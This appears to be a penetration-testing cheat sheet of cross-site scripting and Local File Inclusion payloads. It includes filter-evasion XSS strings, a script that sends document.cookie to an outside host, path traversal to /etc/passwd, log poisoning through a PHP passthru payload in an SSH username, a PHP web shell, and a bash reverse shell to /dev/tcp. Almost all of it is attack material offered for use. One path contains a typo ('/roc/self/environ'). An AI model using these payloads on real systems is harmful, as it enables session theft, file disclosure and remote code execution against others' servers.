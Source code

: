 ------------------------------------------------------------------------------------------------------------------------------------------cross site scripting----------------------------------------------------------------------------------------------------------------------------------------------------
-	<ScRipT>alert("XSS");</ScRipT>
-	<scr<script>ipt>alert(1)</script>
-	<svg/onload=alert(1)>
-	<a href=javascript:confirm()>click here
-	<img src=`xx:xx`onerror=alert(1)>
-	<img src=//x55.is OnError=import(src)>
-	</script><script >alert(document.cookie)</script>
-	<script>new  Image().src="http://10.0.2.10:4444/bogus.php?output="+escape(document.cookie);</script>

To automate the process, use the following tools
-	xsstrike
-	xsshunter
-	BeEF
-	JShell
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

------------------------------------------------------------------------------------------------------------------------------------------Local File Inclusion----------------------------------------------------------------------------------------------------------------------------------------------------
-	../../../../../../etc/passwd%00.jpg  --> Null Byte will ignore the extension
-	php://filter/convert.base64-encode/resource=
- /roc/self/environ || /var/log/auth.log [ssh log file] || /var/log/apache2/access.log [web server log file]  --> You can poison any of these log files to get a reverse shell
- Ssh “<?php passthru(base64_decode(‘base64PAYLOAD==’))?>”@10.0.2.13 --> poison the auth.log file
- ./ngrok http 9000  && python -m SimpleHTTPServer --> these two are required in order to execute a php file from an external server
- <?php echo system($_GET['cmd']); ?>
- ../../../../../../../../../var/log/apache2/access.log
- bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
- ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://<RHOST>/admin../admin_staging/index.php?page=FUZZ -fs 15349 --> searching for LFI
